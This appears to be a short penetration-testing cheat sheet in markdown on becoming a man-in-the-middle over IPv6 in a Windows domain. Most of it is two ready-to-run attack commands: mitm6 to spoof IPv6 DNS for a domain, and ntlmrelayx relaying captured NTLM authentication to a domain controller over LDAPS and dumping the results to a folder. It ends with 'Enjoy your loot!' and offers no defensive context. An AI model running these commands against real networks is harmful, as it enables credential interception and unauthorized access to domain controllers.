 ### Essentially, we become Man-in-the-Middle using IPv6

## Tools: mitm6, ntlmrelayx

## Steps: 

#### 1) 

    sudo mitm6 -d DOMAIN

#### 2) 

    ntlmrelayx.py -6 -t ldaps://DC_IP -wh FAKE.DOMAIN -l FOLDER (Run this first!)

#### 3) Enjoy your loot! (Enumerates EVERYTHING that tries to authenticate against the target)
